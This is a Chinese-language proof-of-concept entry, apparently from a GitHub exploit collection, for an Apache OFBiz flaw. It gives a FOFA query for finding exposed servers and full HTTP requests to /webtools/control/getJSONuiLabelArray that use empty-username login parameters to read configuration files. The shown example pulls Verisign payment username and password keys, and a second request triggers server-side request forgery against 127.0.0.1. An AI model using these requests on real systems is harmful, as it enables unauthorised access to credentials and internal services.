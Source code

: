 ## Apache OFBiz SSRF && 任意配置读取
```
FOFA：app="Apache_OFBiz"
url:/webtools
```
![image](https://github.com/user-attachments/assets/f8ecb5ef-da48-4b51-a1e0-a593a1d88847)

![image](https://github.com/user-attachments/assets/f77c0460-047c-4277-9d18-da250c956e7c)

## 任意文件读取漏洞 poc
以读取 applications/accounting/config/payment.properties 中的几个 key 为例

```
POST /webtools/control/getJSONuiLabelArray/?USERNAME=&PASSWORD=s&requirePasswordChange=Y HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cache-Control: no-cache
Pragma: no-cache
Host: 
Content-type: application/x-www-form-urlencoded
Content-Length: 148

requiredLabels={"file:applications/accounting/config/payment.properties":["payment.verisign.user","payment.verisign.pwd","payment.verisign.vendor"]}
```
![image](https://github.com/wy876/POC/assets/139549762/093b6ca3-2917-4607-93a0-efaf2b3e2ca8)

## SSRF 
```
POST /webtools/control/getJSONuiLabelArray/?USERNAME=&PASSWORD=s&requirePasswordChange=Y HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cache-Control: no-cache
Pragma: no-cache
Host: 
Content-type: application/x-www-form-urlencoded
Content-Length: 148

requiredLabels={"http://127.0.0.1/":["xxxxxx"]}
````

这里随便写一个 properties 文件，然后 python -m http.server 8000 起个服务
![image](https://github.com/wy876/POC/assets/139549762/683a3f21-0405-43f1-9d51-a44752107432)

![image](https://github.com/wy876/POC/assets/139549762/7f5e826e-9564-4343-bf1e-d0d530ab7a3a)

![image](https://github.com/wy876/POC/assets/139549762/beb30398-fa1b-4028-98f9-b3e8ccb4d90e)




## 漏洞来源
- https://xz.aliyun.com/t/13211
